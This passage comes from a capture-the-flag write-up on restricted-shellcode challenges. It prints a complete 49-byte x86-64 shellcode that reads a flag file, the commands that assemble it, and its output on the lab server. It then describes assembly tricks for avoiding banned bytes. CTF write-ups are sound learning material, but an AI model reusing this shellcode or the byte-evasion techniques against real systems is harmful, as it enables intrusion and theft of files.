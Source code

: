 Assembling the shellcode is done with the previous command. No bad chars made it into the shellcode, and we have one byte to spare!

```
$ echo; nasm -f bin ./level2-shellcode.asm; xxd -c 1 ./level2-shellcode | awk '{print "\\x"$2 }' |tr -d '\n'; echo; wc -c ./level2-shellcode

\x48\x31\xc0\x48\x31\xff\x48\x89\xe6\x6a\x12\x5a\x0f\x05\x48\x31\xc0\x48\xff\xc0\x48\xff\xc0\x48\x87\xf7\x0f\x05\x48\x96\x48\x87\xfe\x6a\x7f\x5a\x0f\x05\x48\x31\xc0\x48\xff\xc0\x48\x89\xc7\x0f\x05
49 ./level2-shellcode
```

Running it on the server:

```bash
shellcode>\x48\x31\xc0\x48\x31\xff\x48\x89\xe6\x6a\x12\x5a\x0f\x05\x48\x31\xc0\x48\xff\xc0\x48\xff\xc0\x48\x87\xf7\x0f\x05\x48\x96\x48\x87\xfe\x6a\x7f\x5a\x0f\x05\x48\x31\xc0\x48\xff\xc0\x48\x89\xc7\x0f\x05
    Shellcode received...
    Shellcode length (49) bytes.

    Success: Executing shellcode...

/flag/level2.flag^@
FLAG-<redacted>
    Error: SIGSEGV received I think your shellcode is not working
```

After succesfully executing the shellcode, it demands input on stdin. Specifically, it needs the filename which we want to read. Notice that the filename is terminated with a NULL byte: this can be done by typing in the correct filename and then pressing `Ctrl+Space` to send a NULL byte. When done, pressing enter will yield the flag!

Level 3
-------

```bash
This level have shellcode restriction. Bad char list "\x0a\x0d\x2f\x2e\x62\x48\x98\x99\x30\x31" max size 50 bytes.
You main goal is to read /flag/level3.flag
```

Again, fifty bytes maximum shellcode length, but more bad chars have been added. Unfortunately, the bad chars `0x48` and `0x31` make the use of `xor rax, rax` and the like impossible! Instead, to zero a register, something like this can be done:

```
push byte 1     ; 0x6a, 0x01
pop rbx         ; 0x5b
dec bl          ; 0xff
```

This effectively clears `rbx`. This register also typically keeps it's original value after a syscall (it's non-volatile), so it's a good place to store something we'll use more often. 

Furthermore, I like to use `xchg` to swap around contents of registers. However, if this is done on full 64-bit registers, the assembler generates a `0x48` byte, which is a bad char. Instead, the values can be passed around via the stack:
